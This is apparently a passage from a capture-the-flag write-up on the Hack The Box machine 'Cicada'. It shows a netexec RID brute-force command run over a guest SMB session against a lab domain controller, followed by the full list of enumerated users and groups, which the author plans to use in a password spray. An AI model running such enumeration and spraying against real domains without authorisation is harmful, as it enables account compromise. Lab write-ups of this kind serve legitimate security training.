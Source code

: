 Now that I have a password, I want to find usernames to I can do a password spray attack and find a valid set of credentials.

## RID-Bruteforce attack 
Since Guest Sessions are allowed, I can try to do a RID brute-force to find valid usernames in the domain.
for this I'll use `netexec`. the follow-up tool in `crackmapexec`.

```bash
netexec smb cicada.htb -u 'randomuser' -p '' --rid-brute
SMB         10.129.227.95   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.95   445    CICADA-DC        [+] cicada.htb\randomuser: (Guest)
SMB         10.129.227.95   445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.227.95   445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.227.95   445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.227.95   445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.227.95   445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.227.95   445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.227.95   445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.227.95   445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.227.95   445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.227.95   445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.227.95   445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.227.95   445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.227.95   445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.227.95   445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.227.95   445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

